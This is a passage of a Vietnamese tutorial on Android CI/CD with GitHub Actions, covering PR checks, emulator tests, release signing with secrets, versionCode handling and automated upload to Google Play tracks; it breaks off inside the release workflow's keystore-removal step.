






# Github CI

Mục **Github CI** trong mục lục là **GitHub Actions**, dịch vụ CI/CD có sẵn trong GitHub. Đây là bài chính của Session 11: hiện thực pipeline Android của [11.0 Tổng quan](index.md) bằng GitHub Actions, từ commit tới Google Play.

## Vấn đề cần giải quyết

Một app Android có ba việc lặp lại ở mọi thay đổi, và làm tay thì mỗi việc hỏng một kiểu:

- **Kiểm tra trước khi merge.** Lint, unit test, build ([10.3 Lint](../coding_analyst_and_testing/lint.md), [10.2 Unit Testing](../coding_analyst_and_testing/unit_testing.md)) chỉ có tác dụng khi chạy ở **mọi** Pull Request, trên máy sạch, và **chặn** merge khi đỏ.
- **Ký bản release.** Bản lên Play phải ký bằng upload key ([AAB](../session_01/output_packages/aab_files.md)). Keystore ở máy một người thì phát hành phụ thuộc người đó; nằm trong repo thì ai đọc repo cũng ký được app.
- **Đưa bản build lên Google Play.** Kéo thả AAB, tự tăng `versionCode`: dễ trùng số, hoặc phát hành cho 100% người dùng một bản chưa ai thử.

Cần **biến ba việc đó thành quy trình máy chạy theo sự kiện trên repo**: secret được bảo vệ, có người duyệt trước phát hành, bản build tới người dùng theo nhóm tăng dần.

## Sau khi học xong

- Giải thích được mô hình của GitHub Actions gồm workflow, event, job, step, runner, action, và cách needs, if, concurrency, permissions điều khiển một lần chạy.
- Triển khai được pipeline PR check chạy lint, unit test, build debug, lưu report làm artifact và chặn merge bằng required status check.
- Áp dụng được secret để ký bản release trên CI bằng keystore base64, signingConfigs.release đọc biến môi trường và versionCode lấy từ số lần chạy.
- Triển khai được pipeline Release đẩy AAB đã ký lên internal track của Google Play bằng service account, qua environment có người duyệt.
- Phân biệt được các track của Google Play, staged rollout và cách promote một release từ internal lên production.

## GitHub Actions là gì?

**GitHub Actions** là nền tảng CI/CD tích hợp trong GitHub: mỗi **workflow** là một file YAML trong `.github/workflows/` mô tả **khi một event xảy ra trên repo** (mở PR, push tag, bấm nút chạy tay) thì chạy những **job** nào; mỗi job là một chuỗi **step** chạy tuần tự trên một **runner** (máy ảo do GitHub cấp hoặc máy của bạn).

Mental model: workflow là **một dây chuyền có công tắc**. Event là công tắc; mỗi job là một **trạm** trên máy riêng; step là từng thao tác tại trạm; `needs` nối trạm sau trạm trước; **artifact** là hàng hoá chuyển ra khỏi trạm (report, APK, AAB).

## Cách hoạt động

### Mô hình: workflow, event, job, step, runner

| Khái niệm | Là gì | Viết ở đâu trong YAML |
|---|---|---|
| Workflow | Một file `.github/workflows/*.yml`; repo có thể có nhiều workflow | cả file |
| Event | Sự kiện kích hoạt workflow | `on:` |
| Job | Nhóm step chạy trên **một** runner; các job mặc định chạy song song | `jobs.<id>` |
| Step | Một thao tác: gọi một action (`uses:`) hoặc chạy lệnh shell (`run:`) | `jobs.<id>.steps` |
| Runner | Máy chạy job; `ubuntu-latest` là máy ảo Linux có sẵn JDK, Android SDK, huỷ sau job | `runs-on:` |
| Action | Logic đóng gói sẵn để tái dùng (checkout, cài JDK, cache) | `uses: owner/repo@version` |

Event hay dùng: `pull_request` (mở PR, push thêm commit; lọc nhánh đích bằng `branches:`), `push` với `tags:` (tag khớp mẫu `v*`, trigger của bản phát hành), `workflow_dispatch` (nút "Run workflow", có `inputs`), `schedule` (cron).

**`uses:` và `run:`** khác ở chỗ ai viết logic: `run:` chạy lệnh shell của bạn, `uses:` chạy code người khác với quyền của job, nên phải pin version (mục dưới).

Một lần chạy:

1. Event xảy ra; GitHub tìm mọi workflow có `on:` khớp.
2. Mỗi workflow tạo một **workflow run**; mỗi job lên một runner trống.
3. Runner chạy lần lượt các step; step lỗi thì các step sau bị bỏ, trừ step có `if` cho phép.
4. Kết quả job thành **check** trên commit/PR; file cần giữ thành artifact.



### Điều khiển lần chạy: needs, if, concurrency, permissions

- **`needs: build`**: job chỉ bắt đầu khi job `build` thành công; không có `needs` thì chạy song song.
- **`if:`**: điều kiện cho job hoặc step, ví dụ `github.event_name == 'push'`; hàm trạng thái `success()` (mặc định), `failure()`, `always()`, `cancelled()`. Job bị bỏ qua vì `if` có trạng thái **skipped** và không chặn required check.
- **`concurrency:`**: các lần chạy cùng `group` không chạy chồng nhau. PR đặt `cancel-in-progress: true` để commit mới huỷ lần chạy cũ; release để `false`, không huỷ upload lên Play đang dở.
- **`permissions:`**: mỗi job nhận một `GITHUB_TOKEN` tạm thời; quyền mặc định tuỳ cấu hình repo hoặc organization, nên khai báo tường minh mức tối thiểu, thường `contents: read`.

### Pin version của action

`@v7` là **tag major**, tác giả dời theo mỗi bản vá; `@v7.0.1` cũng là tag, vẫn dời được; chỉ **full commit SHA** (`@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1`) là bất biến, và GitHub khuyên pin SHA cho action bên thứ ba. Thực tế phổ biến: `actions/*` và Gradle dùng tag major, action cộng đồng pin SHA, Dependabot mở PR cập nhật:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
```

Version trong bài (11/2026): `actions/checkout@v7`, `actions/setup-java@v6`, `gradle/actions/setup-gradle@v6`, `actions/upload-artifact@v7`, `reactivecircus/android-emulator-runner@v2`.

### Pipeline PR check

PR check là pipeline chuẩn thứ nhất của [11.0](index.md). Hai action cần hiểu:

- **`actions/setup-java`** cài JDK theo `distribution` và `java-version`. Tuỳ chọn `cache: gradle` của nó đơn giản hơn; đừng bật cùng lúc với `setup-gradle`.
- **`gradle/actions/setup-gradle`** cache Gradle User Home, mặc định chỉ **ghi** cache ở nhánh mặc định, chỉ **đọc** ở nhánh khác và PR, nên PR không làm bẩn cache của `main`. Nó cũng mặc định **kiểm tra Gradle Wrapper** (`validate-wrappers: true`): so checksum `gradle-wrapper.jar` với bản chính thức, chặn PR thay jar độc hại.

> [!NOTE]
> Từ `gradle/actions` v6 (03/2026), cache mặc định (`cache-provider: enhanced`) là thành phần độc quyền `gradle-actions-caching`: miễn phí cho repo public, đang là Free Preview cho repo private; dùng v6 là chấp nhận Terms of Use của Gradle. Không muốn thì đặt `cache-provider: basic` (bản MIT).

#### Ví dụ: kiểm tra mọi Pull Request vào main

**Bài toán:** mọi PR vào `main` phải được lint, test, build trên máy sạch, có report xem được, và QA tải được APK debug của PR.

**Luồng chạy:**

1. Mở PR vào `main` hoặc push thêm commit: event `pull_request` kích hoạt workflow.
2. `concurrency` huỷ lần chạy cũ của PR; `permissions` giới hạn token ở quyền đọc.
3. Checkout code của PR, cài JDK 17.
4. `setup-gradle` kiểm tra wrapper, khôi phục cache từ `main`.
5. Gradle chạy lint, unit test, build debug; `--continue` để task đỏ không chặn task độc lập khác.
6. Report luôn được upload (kể cả khi bước 5 đỏ); APK debug chỉ khi build xanh.
7. Kết quả job thành check "Lint, unit test, build" trên PR.



**Code:**

```yaml
# .github/workflows/pr-check.yml
name: PR check

on:
  pull_request:                                   # (1)
    branches: [main]
  workflow_dispatch:

permissions:
  contents: read                                  # (2)

concurrency:
  group: pr-check-${{ github.head_ref || github.ref }}
  cancel-in-progress: true                        # (2)

jobs:
  build:
    name: Lint, unit test, build                  # (7) tên check hiện trên PR
    runs-on: ubuntu-latest
    timeout-minutes: 30
    steps:
      - uses: actions/checkout@v7                 # (3)
      - uses: actions/setup-java@v6               # (3)
        with:
          distribution: temurin
          java-version: '17'
      - uses: gradle/actions/setup-gradle@v6      # (4)

      - name: Lint, test, build                   # (5)
        run: ./gradlew lintDebug testDebugUnitTest assembleDebug --continue

      - name: Upload reports                      # (6) chạy cả khi bước trước đỏ
        if: ${{ !cancelled() }}
        uses: actions/upload-artifact@v7
        with:
          name: reports
          path: |
            app/build/reports/
            app/build/test-results/
          retention-days: 14

      - name: Upload debug APK                    # (6) chỉ khi build xanh
        uses: actions/upload-artifact@v7
        with:
          name: app-debug
          path: app/build/outputs/apk/debug/*.apk
          retention-days: 7
```

**Kết quả:** PR có check "PR check / Lint, unit test, build" xanh hoặc đỏ; "Details" mở log từng step, cuối trang lần chạy có artifact `reports` (`lint-results-debug.html`, `tests/testDebugUnitTest/index.html`) và `app-debug`.

Nhiều flavor thì dùng `strategy.matrix` chạy song song từng variant: xem [Flavor](../session_04/android_manifest/package_build_gradle/flavor.md), mục "Kết hợp Flavor với CI/CD".

### Chặn merge bằng required status check

Workflow chỉ **báo** kết quả; muốn PR đỏ **không merge được** phải bật luật trên `main` bằng **branch protection rule** (cũ) hoặc **ruleset** (mới hơn, áp cho nhiều nhánh và tag):

1. **Settings → Rules → Rulesets → New branch ruleset**, Enforcement status Active, target nhánh mặc định.
2. Bật **Require a pull request before merging**: không ai push thẳng vào `main`.
3. Bật **Require status checks to pass**, thêm check theo **tên job** (`Lint, unit test, build`).

> [!WARNING]
> Required check gắn với **tên** check. Đổi `name:` của job mà không sửa ruleset thì mọi PR kẹt ở "Expected — Waiting for status to be reported".

Ruleset và branch protection có cho repo public ở mọi gói; repo private cần Pro, Team hoặc Enterprise.

### Instrumented test trên emulator

Instrumented test và Compose UI test ([10.2](../coding_analyst_and_testing/unit_testing.md)) cần thiết bị:

- **Emulator ngay trên runner** bằng action cộng đồng `reactivecircus/android-emulator-runner`: tạo AVD, khởi động emulator, chạy `script` rồi tắt. Runner Linux tăng tốc được qua **KVM** sau khi mở quyền `/dev/kvm`.
- **Firebase Test Lab** (`gcloud firebase test android run`): thiết bị thật hoặc ảo của Google, nhiều model cùng lúc; vượt hạn mức miễn phí thì tính phí theo thời gian thiết bị.

#### Ví dụ: chạy UI test khi PR sẵn sàng review

**Bài toán:** UI test mất ~10 phút; chỉ chạy cho PR sẵn sàng review (không phải draft) và khi lint/unit test đã xanh.

**Luồng chạy:**

1. Nghe thêm `ready_for_review` để chạy lại khi PR rời trạng thái draft.
2. Job `instrumented` `needs: build`: chỉ chạy khi job build xanh.
3. `if` bỏ qua job khi PR là draft (skipped).
4. Mở quyền KVM cho runner.
5. Tạo emulator API 34, chạy `connectedDebugAndroidTest`.



**Code:** thêm vào `pr-check.yml` ở ví dụ trên.

```yaml
# .github/workflows/pr-check.yml (phần thêm vào)
on:
  pull_request:
    branches: [main]
    types: [opened, synchronize, reopened, ready_for_review]   # (1)

jobs:
  instrumented:
    name: Instrumented test
    needs: build                                  # (2)
    if: ${{ !github.event.pull_request.draft }}   # (3)
    runs-on: ubuntu-latest
    timeout-minutes: 45
    steps:
      - uses: actions/checkout@v7
      - uses: actions/setup-java@v6
        with:
          distribution: temurin
          java-version: '17'
      - uses: gradle/actions/setup-gradle@v6
      - name: Enable KVM                          # (4)
        run: |
          echo 'KERNEL=="kvm", GROUP="kvm", MODE="0666", OPTIONS+="static_node=kvm"' | sudo tee /etc/udev/rules.d/99-kvm4all.rules
          sudo udevadm control --reload-rules
          sudo udevadm trigger --name-match=kvm
      - uses: reactivecircus/android-emulator-runner@v2   # (5) pin SHA trong dự án thật
        with:
          api-level: 34
          arch: x86_64
          target: google_apis
          script: ./gradlew connectedDebugAndroidTest
```

**Kết quả:** PR draft có check "Instrumented test" skipped; bấm "Ready for review" thì job chạy sau job build, report HTML ở `app/build/reports/androidTests/`.

### Secret: đưa khoá ký vào CI

**Secret** là giá trị mã hoá lưu trên GitHub, workflow đọc bằng expression `secrets.TÊN`; GitHub che (mask) giá trị nếu nó xuất hiện nguyên văn trong log. Hai phạm vi:

- **Repository secret**: mọi workflow trong repo đọc được.
- **Environment secret**: chỉ job khai báo `environment: production` đọc được; environment có **required reviewers** thì job **chỉ đọc được secret sau khi có người duyệt**. Khoá ký và khoá Play đặt ở đây.

Tên secret dùng thống nhất trong Session 11:

| Secret | Nội dung |
|---|---|
| `RELEASE_KEYSTORE_BASE64` | File keystore (upload key) mã hoá base64 |
| `RELEASE_STORE_PASSWORD` | Mật khẩu keystore |
| `RELEASE_KEY_ALIAS` | Alias của key trong keystore |
| `RELEASE_KEY_PASSWORD` | Mật khẩu của key |
| `PLAY_SERVICE_ACCOUNT_JSON` | Nội dung khoá JSON của service account Google Play (mục sau) |

Keystore là file nhị phân nên mã hoá base64 thành chuỗi, giải mã lại trên runner. Tạo secret bằng GitHub CLI hoặc **Settings → Secrets and variables → Actions**:

```bash
# Trên máy giữ keystore. Linux: base64 -w 0 (một dòng); macOS: base64 -i release.jks
base64 -w 0 release.jks | gh secret set RELEASE_KEYSTORE_BASE64 --env production
gh secret set RELEASE_STORE_PASSWORD --env production   # gh hỏi giá trị; tương tự cho KEY_ALIAS, KEY_PASSWORD
gh secret set PLAY_SERVICE_ACCOUNT_JSON --env production < play-service-account.json
```

Quy tắc khi dùng secret trong step:

- Đưa secret vào step qua `env:` rồi dùng biến shell (`"$RELEASE_KEYSTORE_BASE64"`), không chèn expression secret thẳng vào chuỗi `run:`.
- Mask chỉ che **đúng chuỗi** đã lưu, không che giá trị biến đổi từ secret (keystore đã giải mã): không `cat`, không `set -x`, không upload keystore làm artifact.
- Ghi keystore ra `app/release.jks` (thêm `*.jks` vào `.gitignore`), xoá ở step cuối với `if: always()`; runner GitHub-hosted bị huỷ sau job, nhưng self-hosted runner giữ lại workspace.
- Workflow chạy cho PR từ **fork** không nhận secret (trừ `GITHUB_TOKEN`): PR check không được phụ thuộc secret.

### Cấu hình ký release chuẩn (signingConfigs.release)

[Build Types](../session_04/android_manifest/package_build_gradle/build_types.md) đã cho `signingConfigs` đọc `System.getenv`. Bản chuẩn của Session 11 thêm đường dẫn keystore từ `RELEASE_STORE_FILE` (mặc định `release.jks`, tính từ module `app`) và **fallback** khi máy dev không có biến môi trường. Jenkins, Bitrise, Travis CI dùng lại đúng đoạn này.

```kotlin
// app/build.gradle.kts
android {
    signingConfigs {
        create("release") {
            // file() tính từ thư mục module: "release.jks" là app/release.jks
            storeFile = file(System.getenv("RELEASE_STORE_FILE") ?: "release.jks")
            storePassword = System.getenv("RELEASE_STORE_PASSWORD")
            keyAlias = System.getenv("RELEASE_KEY_ALIAS")
            keyPassword = System.getenv("RELEASE_KEY_PASSWORD")
        }
    }

    buildTypes {
        release {
            isMinifyEnabled = true
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro",
            )
            // Có biến (CI) → upload key; không có (máy dev) → debug key để cài thử, Play từ chối bản này
            val hasReleaseKey = System.getenv("RELEASE_STORE_PASSWORD") != null
            signingConfig = if (hasReleaseKey) {
                signingConfigs.getByName("release")
            } else {
                signingConfigs.getByName("debug")
            }
        }
    }
}
```

Kiểm tra `!= null` thay vì `isNullOrEmpty()` là có chủ ý: trên CI, secret chưa tạo vào `env:` thành chuỗi rỗng, nên build **đỏ ở bước ký** thay vì lặng lẽ ra bản ký debug. Đây là upload key; Google ký lại bằng app signing key khi phân phối ([AAB](../session_01/output_packages/aab_files.md)).

### versionCode trên CI

Mỗi bản upload lên Play phải có `versionCode` **chưa từng dùng** cho app, bản cập nhật phải cao hơn bản người dùng đang cài; tối đa 2100000000. Cách chuẩn: Gradle đọc `versionCode` từ **Gradle property**, CI truyền số build của tool vào.

```kotlin
// app/build.gradle.kts
android {
    defaultConfig {
        applicationId = "com.example.shop"
        // CI truyền -PversionCode, -PversionName; máy dev dùng giá trị mặc định
        versionCode = providers.gradleProperty("versionCode").orNull?.toInt() ?: 1
        versionName = providers.gradleProperty("versionName").orNull ?: "0.0.0-dev"
    }
}
```

Trên GitHub Actions, số build là `GITHUB_RUN_NUMBER`: tăng dần **theo từng workflow**, bắt đầu từ 1, **không đổi khi re-run** (re-run tăng `GITHUB_RUN_ATTEMPT`). Hệ quả:

- Re-run lần phát hành đã upload xong ra lại đúng `versionCode` cũ, Play từ chối; phải push tag mới.
- App đã có bản trên Play (ví dụ `versionCode` 57), hoặc chuyển sang file workflow mới (số đếm lại từ 1), thì cộng offset: `1000 + GITHUB_RUN_NUMBER`.

Tool khác chỉ thay nguồn số: Jenkins `BUILD_NUMBER` (job Pipeline thường; Multibranch xem [11.1 Jenkins](jenkins.md)), Bitrise `BITRISE_BUILD_NUMBER`, Travis CI `TRAVIS_BUILD_NUMBER`. Gradle property cũng đặt được qua biến `ORG_GRADLE_PROJECT_versionCode`.

### Publish Store: Google Play nhận bản build từ CI thế nào

CI không đăng nhập Play Console; nó gọi **Google Play Developer API** bằng danh tính một **service account**. Mỗi lần upload là một **edit**: mở edit, upload AAB, gán AAB vào một **release** trên một **track**, commit edit. Mọi công cụ upload đều bọc chuỗi lời gọi này.

### Service account cho Google Play Developer API

**Service account** là tài khoản Google cho máy, định danh bằng email `...@<project>.iam.gserviceaccount.com`, xác thực bằng khoá JSON. Tài liệu hiện hành ghi **không còn cần liên kết** tài khoản developer với Google Cloud project, nhưng vẫn cần một project để bật API:

1. Trong **Google Cloud Console**, tạo hoặc chọn một project.
2. Bật **Google Play Android Developer API** cho project đó.
3. Tạo service account (**IAM & Admin → Service Accounts**), tạo khoá JSON (chỉ tải được một lần), lưu vào secret `PLAY_SERVICE_ACCOUNT_JSON` rồi xoá bản trên máy.
4. Trong **Play Console → Users and permissions**, mời email service account như một user, chọn **app** nó được truy cập, cấp quyền tối thiểu: quyền release lên testing track; chỉ cấp quyền release production nếu CI promote lên production.
5. Chạy thử một lần upload lên internal để kiểm tra quyền.

Quyền phát hành do Users and permissions của Play Console quyết định, không phải IAM.

### Lần upload đầu tiên phải làm tay

Play Developer API **không đăng ký được app mới**: tạo app trong Play Console, upload AAB đầu tiên bằng tay (thường lên internal testing), thiết lập Play App Signing; từ bản sau CI mới upload được.

Khi app còn ở trạng thái **draft** (chưa phát hành lần nào), API chỉ nhận release draft; upload `completed` bị từ chối với lỗi "Only releases with status draft may be created on draft app". Khi đó dùng `--release-status draft`, rồi hoàn tất trên Play Console.

### Track và staged rollout

**Track** là một kênh phân phối trong Play Console, có nhóm người nhận và release riêng:

| Track | Ai nhận | Đặc điểm |
|---|---|---|
| Internal testing | Tối đa 100 tester theo email | Có trên Play trong vài phút, có thể không qua review chuẩn; đích của pipeline Release |
| Closed testing | Danh sách email hoặc Google Group | QA, beta tester; tài khoản cá nhân tạo sau 13/11/2023 phải có closed test ít nhất 12 tester liên tục 14 ngày mới lên production được |
| Open testing | Ai cũng tham gia được từ trang app trên Play | Beta công khai |
| Production | Mọi người dùng | Qua review của Google; hỗ trợ staged rollout |

**Staged rollout** là phát hành bản **cập nhật** cho một **tỉ lệ** người dùng ngẫu nhiên (`userFraction`, `0.1` = 10%, release ở trạng thái `inProgress`), rồi tăng dần khi crash và ANR ([Android vitals, Crashlytics](../coding_analyst_and_testing/fit_bug_optimization.md)) ổn:

- Tỉ lệ **không tự tăng**; phải cập nhật tay hoặc qua API.
- **Halt** dừng phát cho người chưa nhận, người đã cài vẫn giữ bản đó; sửa bằng bản mới có `versionCode` cao hơn.
- Không dùng được cho lần phát hành đầu; có trên production, closed và open testing.

### Promote giữa các track

**Promote** là đưa đúng **một AAB đã upload** (cùng `versionCode`) sang track khác, không build lại: bản QA đã thử trên internal chính là bản người dùng nhận.



**Release notes** ("What's new") đi kèm mỗi release theo từng ngôn ngữ, tối đa 500 ký tự; với Gradle Play Publisher chúng là file trong repo (`app/src/main/play/release-notes/<ngôn ngữ>/<track>.txt` hoặc `default.txt`), review cùng code.

### Upload lên Play: Gradle Play Publisher và các cách khác

| Cách | Điểm mạnh | Điểm yếu |
|---|---|---|
| **Gradle Play Publisher** (plugin `com.github.triplet.play`) | Chạy giống nhau trên mọi CI và máy dev; track, rollout, release notes nằm trong repo | Thêm một plugin vào build |
| **fastlane supply** (`upload_to_play_store`) | Quản lý cả metadata, ảnh store; một công cụ cho iOS và Android | Thêm Ruby, Bundler vào môi trường build |
| **Action cộng đồng** (vd `r0adkll/upload-google-play`) | Ít cấu hình nhất | Chỉ chạy trên GitHub Actions; code bên thứ ba cầm khoá Play |

Bài chọn **Gradle Play Publisher (GPP)**: cùng một lệnh chạy trên mọi CI hay máy dev, chỉ khác chỗ lấy secret. README của GPP ghi dự án ở **maintenance mode** (issue bị bỏ qua, chỉ nhận pull request), dù vẫn ra bản 4.1.1 (08/2026). Cấu hình dùng GPP 4.1.1; dòng 4.x chỉ hỗ trợ AGP 9 trở lên, dự án còn ở AGP 8 dùng GPP 3.x:

```kotlin
// app/build.gradle.kts
import com.github.triplet.gradle.androidpublisher.ReleaseStatus

plugins {
    id("com.android.application")
    id("com.github.triplet.play") version "4.1.1"
}

play {
    // Khoá: GPP đọc nội dung JSON từ biến môi trường ANDROID_PUBLISHER_CREDENTIALS
    track.set("internal")                       // track mặc định của publish
    defaultToAppBundles.set(true)               // publish AAB thay vì APK
    releaseStatus.set(ReleaseStatus.COMPLETED)  // DRAFT khi app còn ở trạng thái draft
}
```

Tên task theo quy ước của AGP `[action][Variant][Thing]`: `publishBundle`/`promoteArtifact` chạy cho mọi variant, `publishReleaseBundle`/`promoteReleaseArtifact` chỉ cho variant `release`. `--artifact-dir` (tính từ thư mục gốc dự án) upload AAB có sẵn, không build lại; `--track`, `--release-status`, `--user-fraction` ghi đè `play {}` cho một lần chạy. AAB đã chứa `mapping.txt` của R8 nên Play tự giải mã stack trace; plugin Crashlytics tự upload mapping khi build ([10.4](../coding_analyst_and_testing/fit_bug_optimization.md)).

### Pipeline Release trên tag v*

Pipeline Release ráp mọi phần trên. Environment `production` (**Settings → Environments**) có: **Required reviewers** (tối đa 6 người hoặc team, bật "Prevent self-review" để người push tag không tự duyệt), **Deployment branches and tags** là "Selected branches and tags" chỉ gồm tag `v*` (job chạy trên ref khác, kể cả `main`, bị từ chối), và các environment secret ở trên.

> [!IMPORTANT]
> Trên repo **private**, required reviewers chỉ có ở GitHub Enterprise (Free, Pro, Team chỉ có cho repo public), environment secret cần ít nhất Pro hoặc Team. Thiếu required reviewers thì dùng **tag ruleset** giới hạn ai được tạo tag `v*`, và giữ promote lên production là bước tay có chủ đích.

#### Ví dụ: phát hành v1.4.0 lên internal track

**Bài toán:** app đã có trên Play; mỗi tag như `v1.4.0` phải thành AAB đã ký trên internal testing cho QA, sau khi người thứ hai duyệt.

**Luồng chạy:**

1. Push tag `v1.4.0` kích hoạt workflow; `concurrency` chặn hai lần phát hành chạy chồng.
2. Job `environment: production` chờ duyệt; duyệt xong mới đọc được environment secret.
3. Giải mã `RELEASE_KEYSTORE_BASE64` ra `app/release.jks`.
4. `bundleRelease` với biến ký, `versionCode` = 1000 + `GITHUB_RUN_NUMBER`, `versionName` = tag bỏ chữ `v`.
5. Lưu AAB và `mapping.txt` làm artifact 90 ngày.
6. GPP upload AAB vừa build lên internal track bằng khoá service account.
7. Xoá keystore, kể cả khi bước trước lỗi.


<!-- archify: s11-github-release-to-play | Pipeline Release: từ tag tới Play internal track -->

**Code:**

```yaml
# .github/workflows/release.yml
name: Release

on:
  push:
    tags: ['v*']                                  # (1)

permissions:
  contents: read

concurrency:
  group: release                                  # (1) promote.yml dùng cùng group
  cancel-in-progress: false

jobs:
  release:
    runs-on: ubuntu-latest
    timeout-minutes: 45
    environment: production                       # (2)
    steps:
      - uses: actions/checkout@v7
      - uses: actions/setup-java@v6
        with:
          distribution: temurin
          java-version: '17'
      - uses: gradle/actions/setup-gradle@v6

      - name: Decode keystore                     # (3)
        env:
          RELEASE_KEYSTORE_BASE64: ${{ secrets.RELEASE_KEYSTORE_BASE64 }}
        run: echo "$RELEASE_KEYSTORE_BASE64" | base64 --decode > app/release.jks

      - name: Build signed AAB                    # (4)
        env:
          RELEASE_STORE_FILE: release.jks
          RELEASE_STORE_PASSWORD: ${{ secrets.RELEASE_STORE_PASSWORD }}
          RELEASE_KEY_ALIAS: ${{ secrets.RELEASE_KEY_ALIAS }}
          RELEASE_KEY_PASSWORD: ${{ secrets.RELEASE_KEY_PASSWORD }}
        run: |
          ./gradlew bundleRelease \
            -PversionCode=$((1000 + GITHUB_RUN_NUMBER)) \
            -PversionName="${GITHUB_REF_NAME#v}"

      - name: Upload AAB and mapping              # (5)
        uses: actions/upload-artifact@v7
        with:
          name: release-${{ github.ref_name }}
          path: |
            app/build/outputs/bundle/release/*.aab
            app/build/outputs/mapping/release/mapping.txt
          if-no-files-found: error
          retention-days: 90

      - name: Upload to Play internal track       # (6) upload đúng AAB vừa build, không build lại
        env:
          ANDROID_PUBLISHER_CREDENTIALS: ${{ secrets.PLAY_SERVICE_ACCOUNT_JSON }}
        run: ./gradlew publishReleaseBundle --artifact-dir app/build/outputs/bundle/release

      - name: Remove keystore                     # (7)
